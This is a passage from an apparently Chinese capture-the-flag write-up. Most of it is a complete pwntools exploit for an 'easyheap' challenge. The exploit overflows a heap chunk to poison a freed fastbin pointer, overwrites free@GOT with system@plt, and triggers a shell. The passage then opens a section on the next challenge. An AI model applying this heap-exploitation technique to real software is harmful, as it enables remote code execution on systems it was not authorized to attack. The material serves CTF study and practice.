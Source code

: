 这是本题的exp：

```
from pwn import *

context.log_level='debug'
# io = remote('node3.buuoj.cn',27573)
io = process('./easyheap')
elf = ELF('./easyheap')

free_got = elf.got['free']
system_plt = elf.plt['system']

def add(size, content):
    io.sendlineafter('Your choice :', str('1'))
    io.sendlineafter('Size of Heap : ', str(size))
    io.sendlineafter('Content of heap:', content)

def edit(index, size, content):
    io.sendlineafter('Your choice :', str('2'))
    io.sendlineafter('Index :', str(index))
    io.sendlineafter('Size of Heap : ', str(size))
    io.sendlineafter('Content of heap : ', content)

def delete(index):
    io.sendlineafter('Your choice :', str('3'))
    io.sendlineafter('Index :', str(index))

add(0x60, '/bin/sh\x00') #0
add(0x60, 'aaaa') #1

delete(1)

fake_chunk = 0x6020ad

edit(0, 0x78, 'a' * 0x60 + p64(0) + p64(0x71) + p64(fake_chunk))

add(0x60, 'aaaa') #1

add(0x60, 'a' * 0x23 + p64(free_got)) #3
edit(0, len(p64(system_plt)), p64(system_plt))
edit(1, 0x10, '/bin/sh\x00')
delete(1)

io.interactive()
```



## 0x03 babyfengshui_33c3_2016

同样还是一道菜单题，开启了canary和NX保护，RELRO是Partial RELRO，说明got表可写。
